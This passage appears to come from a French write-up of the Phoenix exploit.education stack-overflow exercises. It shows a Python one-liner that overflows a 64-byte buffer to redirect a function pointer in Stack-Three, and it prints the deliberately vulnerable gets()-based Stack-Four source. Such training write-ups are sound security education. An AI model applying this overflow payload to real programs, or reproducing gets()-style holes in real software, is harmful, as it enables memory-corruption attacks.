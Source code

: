 - C'est toujours la même histoire, mais ici, on doit écrire **8 octets** correspondant à l'adresse de la fonction `complete_level()`.

```sh
user@phoenix-amd64:~$ nm /opt/phoenix/amd64/stack-three
...
000000000040069d T complete_level
...
```
```sh
user@phoenix-amd64:~$ python -c 'print("E"*64+"\x9d\x06\x40\x00\x00\x00\x00\x00")' | /opt/phoenix/amd64/stack-three
```
```
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

## Stack-Four

- Le code:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
